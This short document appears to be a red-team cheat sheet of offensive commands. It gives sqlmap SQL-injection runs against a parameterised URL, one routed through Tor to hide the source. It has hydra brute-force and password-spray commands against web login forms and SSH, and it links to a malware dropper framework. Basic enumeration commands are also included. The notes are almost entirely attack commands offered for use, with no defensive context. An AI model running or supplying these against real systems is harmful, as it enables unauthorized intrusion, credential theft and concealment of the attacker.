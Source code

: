 # Red teaming notes
Script &amp; Notes for red teams operations


# enumeration
ping ip
whois ip
tracert ip

# database
sqlmap -u "http://website.com?id1=10&id2=10"

# sqlmap && tor
sqlmap -u "http://website.com?id1=10&id2=10" --tor --tor-type=SOCKS5


# malware repo
https://github.com/D4Vinci/Dr0p1t-Framework

# hydra pwd crack
hydra -L USER.TXT -P PASS.TXT 1.1.1.1 http-post-form "login.php:username-^USER^&password=^PASS^:Error"
hydra -L USER.TXT -P PASS.TXT 1.1.1.1 ssh

# hydra pwd spray attack
hydra -L users.txt -P passwords.txt 192.168.0.1 ssh -u

